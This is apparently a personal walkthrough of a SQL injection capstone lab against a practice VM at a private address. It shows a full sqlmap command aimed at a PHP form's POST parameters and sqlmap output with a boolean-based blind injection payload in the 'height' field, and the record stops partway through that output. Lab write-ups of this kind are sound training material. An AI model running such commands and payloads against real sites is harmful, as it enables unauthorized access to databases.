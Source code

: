 # Walk: SQL Injections Attacks - Module Exercise - VM #3 

## Fecha: 28/01/2025
## Host: Ubuntu
## IP: 192.168.193.49

## Objetivo
Capstone Lab: Enumerate the Module Exercise - VM #3 and exploit the SQLi vulnerability to get the flag

## Herramientas
1. **sqlmap**
2. **curl**

## Procedimiento y comandos
1. Paso 1: Encontrar formularios y parametros vulnerables que sirvan como punto de inyeccion.
2. Paso 2: Revisamos en base a las cabeceras obtenidas con Burp, con sqlmap:
	- class.php: 
	--method=POST: Especifica que se usará el método POST.
	--data: Incluye el cuerpo de los datos enviados en la solicitud.
	-p "weight,height,age,gender,email": Define los parámetros que quieres probar, separados por comas.
	--headers: Agrega las cabeceras relevantes para simular correctamente el entorno original de la solicitud.
	--level=5 y --risk=3: Aumentan la profundidad de las pruebas y los payloads que sqlmap intenta.
	--batch: Evita que sqlmap solicite confirmaciones manuales, útil para automatizar pruebas.

	```
	sqlmap -u "http://192.168.193.49/class.php" --method=POST --data="weight=70&height=174&age=38&gender=Male&email=test%40duckman.com" -p "weight,height,age,gender,email" --headers="Cache-Control: max-age=0; Accept-Language: en-US,en;q=0.9; Origin: http://192.168.193.49; Content-Type: application/x-www-form-urlencoded; Upgrade-Insecure-Requests: 1; User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36; Referer: http://192.168.193.49/class.php; Accept-Encoding: gzip, deflate, br; Connection: keep-alive" --level=5 --risk=3 --batch
	```
	- Obtenemos que el parametro height es vulnerable.
	```
	POST parameter 'height' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
	sqlmap identified the following injection point(s) with a total of 8818 HTTP(s) requests:
	---
	Parameter: height (POST)
	    Type: boolean-based blind
	    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
	    Payload: weight=70&height=174' AND 5487=(SELECT (CASE WHEN (5487=5487) THEN 5487 ELSE (SELECT 1841 UNION SELECT 7367) END))-- CQqR&age=38&gender=Male&email=test@duckman.com

